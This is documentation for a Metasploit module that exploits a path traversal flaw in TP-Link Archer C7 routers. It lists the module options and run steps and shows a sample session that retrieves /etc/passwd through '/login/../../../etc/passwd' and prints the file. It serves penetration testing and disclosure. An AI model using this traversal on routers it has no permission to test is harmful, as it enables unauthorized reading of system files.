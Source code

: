 ## Vulnerable Application

This module attempts to spider files from an archer c7 router using a known traversal
vulnerability

## Options

### FILE

This option sets what file you want to collect from the router.

### SAVE

Use this option to save the file found as loot

## Verification Steps

1. `use auxiliary/gather/tplink_archer_c7_traversal`
2. `set RHOSTS <addr>`
3. `set FILE <file>`
4. `run`

## Scenarios

### Archer C7_V1_141204_US

```
msf > use auxiliary/gather/tplink_archer_c7_traversal
msf auxiliary(gather/tplink_archer_c7_traversal) > set rhosts 192.168.0.1
rhosts => 192.168.0.1
msf auxiliary(gather/tplink_archer_c7_traversal) > run
[*] Running module against 192.168.0.1

[*] Running automatic check ("set AutoCheck false" to disable)
[+] The target appears to be vulnerable. Target device 'Archer C7'
[*] Grabbing data at /login/../../../etc/passwd
[+] /etc/passwd retrieved
root:x:0:0:root:/root:/bin/sh
Admin:x:0:0:root:/root:/bin/sh
bin:x:1:1:bin:/bin:/bin/sh
daemon:x:2:2:daemon:/usr/sbin:/bin/sh
adm:x:3:4:adm:/adm:/bin/sh
lp:x:4:7:lp:/var/spool/lpd:/bin/sh
sync:x:5:0:sync:/bin:/bin/sync
shutdown:x:6:11:shutdown:/sbin:/sbin/shutdown
halt:x:7:0:halt:/sbin:/sbin/halt
uucp:x:10:14:uucp:/var/spool/uucp:/bin/sh
operator:x:11:0:Operator:/var:/bin/sh
nobody:x:65534:65534:nobody:/home:/bin/sh
ap71:x:500:0:Linux Usermmm:/root:/bin/sh
admin:x:500:500:admin:/home:/bin/sh
guest:x:500:500:guest:/home:/bin/sh
root:x:0:0:root:/root:/bin/sh
admin:x:500:500:admin:/tmp/dropbear:/bin/sh

[*] Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
```
